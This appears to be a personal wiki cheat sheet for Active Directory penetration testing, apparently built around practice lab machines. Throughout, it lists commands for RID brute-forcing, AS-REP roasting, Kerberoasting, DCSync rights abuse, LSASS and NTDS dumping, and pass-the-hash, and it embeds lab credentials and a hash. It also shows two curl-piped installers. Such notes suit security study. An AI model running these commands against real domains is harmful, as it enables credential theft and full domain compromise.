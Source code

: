 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Cheat Sheets
**[Wadcoms](https://wadcoms.github.io/)**

# Initial Enumeration (without credentials)
**[Password Spraying via Sprayhound](https://github.com/Hackndo/sprayhound)**
  - Checks badpwdcount attribute only in the domain policy

**[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)**

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/BLACKFIELD\\//' > users.txt
GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

**[LDAPSearch Cheat Sheet](https://notes.benheater.com/books/active-directory/page/ldapsearch)**
```
Domain Contexts: ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts
Search Users: ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)'
```

**[Share Enumeration]**
```
nxc smb [IP] --shares
```
Other resources
  - [Useful LDAP queries](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)

**[Bad PDF](https://github.com/deepzec/Bad-Pdf)**

# Initial Enumeration (with credentials - may also include other enumeration techniques from above)
**[Impacket]**
  - GetADUsers.py

**[LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)**

Old tool however useful if Bloodhound.py isn't working as intended.

**[Integrated DNS Dump](https://github.com/dirkjanm/adidnsdump)**

Any user in Active Directory can enumerate all DNS records in the Domain or Forest DNS zones, similar to a zone transfer.

Additional Resources:
  - [ADIDNS Dump](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

**[BloodHound CE](https://github.com/SpecterOps/BloodHound)**

**Additional Resources** 
  - [BloodHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)
  - [BloodHound Cypher Cheatsheet](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
    
```
curl -L https://ghst.ly/getbhce | docker compose -f - up
```

**[BloodHound.py for Linux](https://github.com/dirkjanm/BloodHound.py)**
```
python3 bloodhound.py -u "support" -p "#00^BlackKnight" -c ALL -d BLACKFIELD.local -ns 10.10.10.192 -dc dc01.BLACKFIELD.local
```

# Poisoning and Relay
**[Responder](https://github.com/lgandx/Responder)**
  - IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

```
hashcat -m 5600 --force -a 0 responder.hashes /usr/share/wordlists/rockyou.txt
/opt/tools/Responder/ (location of Responder)
```

**[SMB Relay]**
```
nxc smb [IP] --gen-relay-list relay.txt
```

# Active Directory Exploitation
**[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)**

**[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)**

**[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)**

**[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)**

**[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)**

**With PowerView**:
```
whoami /all
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
net group "Exchange Windows Permissions" /add svc-alfresco
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
Get-DomainUser -Identity svc-alfresco
Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
```

**[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)**

**[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)**

**Requires:** Domain Credentials

**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets containing the SPN hashes.

```
GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

## Lateral Movement
[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

**Requires:** `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` on Object

```
net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
```

## Credential Dumping
**[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)**

**Requires:** Credential Guard to be disabled.

```
Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-from-linux-efc47391e56d
```

**[Dumping Local SAM](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)**

**[Pypykatz - Mimikatz for Linux](https://github.com/skelsec/pypykatz)**

**Requires:** A DMP file containing credentials extracted to our Linux machine.
```
pypykatz lsa minidump lsass.DMP
```

## Domain Escalation
**[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)**
```
whoami /all (SeBackupPrivilege Enabled)

diskshadow /s backup.txt
robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
reg save hklm\system c:\temp\system.bak (System Hive keys)

## Other Resources
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58
```

-----------------------------------------------------------------------

## Active Directory Tools
**[NetExec](https://github.com/Pennyw0rth/NetExec)**
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
source $HOME/.cargo/env
pipx install git+https://github.com/Pennyw0rth/NetExec
```

**[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)**
```. .\powerview.ps1```

**NSE**
```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```

**SMB**
Enum4Linux
SMBMap
smbclient
smbclient.py (Impacket)
**[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)**
**[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)**

**WinRM**
**[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)**
```
evil-winrm -i 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
```

**[Impacket]()**
```
python3 -m pipx install impacket
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
```

## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
